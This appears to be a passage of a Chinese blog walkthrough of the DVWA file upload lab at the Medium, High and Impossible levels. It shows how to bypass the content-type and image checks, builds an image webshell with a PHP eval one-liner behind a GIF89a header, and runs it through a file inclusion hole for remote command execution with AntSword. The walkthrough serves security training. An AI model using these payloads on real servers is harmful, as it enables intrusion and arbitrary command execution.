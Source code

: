 ![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/1a9c9ccba0a6889824adae8cf6649890.png)
通过中国蚁剑管理
![请添加图片描述](https://i-blog.csdnimg.cn/blog_migrate/c33373dc227e3538ec2c95a2cb6b8b6c.gif)
可以右键打开终端执行任何系统命令
![请添加图片描述](https://i-blog.csdnimg.cn/blog_migrate/44623486c12136782fce28109563b0cb.gif)
#### Medium
看代码
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/1477d13daa8cb41af21eaa6bc0f75e7a.png)
直接上传
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/1401a5693298a7910790b119a78f31a8.png)

直接抓包，action到repeater，通过修改multipart/data中的content-type就可以绕过了。
![请添加图片描述](https://i-blog.csdnimg.cn/blog_migrate/a6258ff3df85ae1ef7f3c0af86a5e34c.gif)
#### Hign
看代码
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/527570eb20708aba1075e878f450376f.png)

判断上传文件的后缀名是jpg|jpeg|png,同时根据getimagesize函数判断文件内容的前几个字符
所以将php文件修改为jpg结尾的文件是无法上传成功的，除非文件中包含图片的标识
有兴趣可研究：https://www.php.net/manual/en/function.getimagesize.php
制作一个图片包含文件内容即可（图片马）
随便用画图工具画个很小的图片文件。
执行命令：copy zero.png/b+ant.php/a shell.png
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/f16eaca051784e1193cc5a4b99ce658c.png)
将生成的shell.png上传，上传成功
或者在php一句话木马中添加gif等图片的标志即可

```
GIF89a
<?php eval($_POST['ant']); ?>
```
因为图片文件在访问时直接当图片处理无法解析jpg中的php一句话木马。
所有需要用之前的hign对应的包含漏洞
http://192.168.20.48/DVWA/vulnerabilities/fi/?page=file:///D:\green\wamp\www\DVWA\hackable\uploads\shell.png

注意需要从浏览器f12 copy一个页面菜单cookie值到蚁剑中
![请添加图片描述](https://i-blog.csdnimg.cn/blog_migrate/b76d3e96bbf1546169dabe7ab2db9ae2.gif)
测试连接成功
> 这里我用postman或者hackbar之类的请求都无法正确请求，不知道蚁剑是怎么处理的

#### impossible
代码

做了以下处理，基本无法解析木马了
- checkToken()						判断token是否正确
- md5( uniqid() . $uploaded_name )	对上传的文件进行重命名
- strtolower( $uploaded_ext )			判断后缀名
- $uploaded_type 						判断文件mimetype
- getimagesize()						判断文件起始字符是否符合
- imagecreatefromjpeg()				图片二次渲染（可以绕过）
- rename()							判断文件是否能移动到web目录下
